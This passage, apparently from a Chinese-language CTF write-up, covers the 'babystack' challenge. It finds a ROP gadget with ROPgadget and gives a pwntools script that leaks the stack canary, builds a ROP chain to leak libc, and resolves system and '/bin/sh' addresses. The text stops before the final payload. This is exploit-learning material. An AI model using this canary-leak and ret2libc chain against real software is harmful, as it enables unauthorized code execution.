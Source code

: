 pop rdi; ret的指令寻找方式如下：

```
root@mypwn:/ctf/work/python/pwn1# ROPgadget --binary babystack --only 'pop|ret' | grep rdi
0x0000000000400a93 : pop rdi ; ret
```

根据三次payload，编写python代码如下：

```
#!python
#!/usr/bin/env python
#coding:utf8

from pwn import *

context.log_level = 'debug'
process_name = './babystack'
# p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
p = remote('111.198.29.45', 45404)
elf = ELF(process_name)

def get_info():
	info = p.recvline()
	log.info("info => %s", info)
	return info

def store_info(payload):
	p.sendlineafter('--------\n>> ', '1')
	p.sendline(payload)
	return get_info()

def print_info():
	p.sendlineafter('--------\n>> ', '2')
	return get_info()

def quit_program():
	p.sendlineafter('--------\n>> ', '3')
	# return get_info()

payload = 'A'*(0x90-8)
store_info(payload)
print_info()
canary = u64(p.recvn(7).rjust(8, '\x00'))
log.info("canary => %#x", canary)

pop_rdi_ret = 0x400a93
write_got = elf.got['write']
puts_plt = elf.plt['puts']
main_addr = 0x400908
payload = 'A'*(0x90-8) + p64(canary) + 'A'*8 + p64(pop_rdi_ret) + p64(write_got) + p64(puts_plt) + p64(main_addr)
store_info(payload)
quit_program()
write_addr = u64(p.recvn(6).ljust(8, '\x00'))
log.info("write_addr => %#x", write_addr)

from LibcSearcher import *
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
log.info("system_addr => %#x", system_addr)
log.info("binsh_addr => %#x", binsh_addr)
```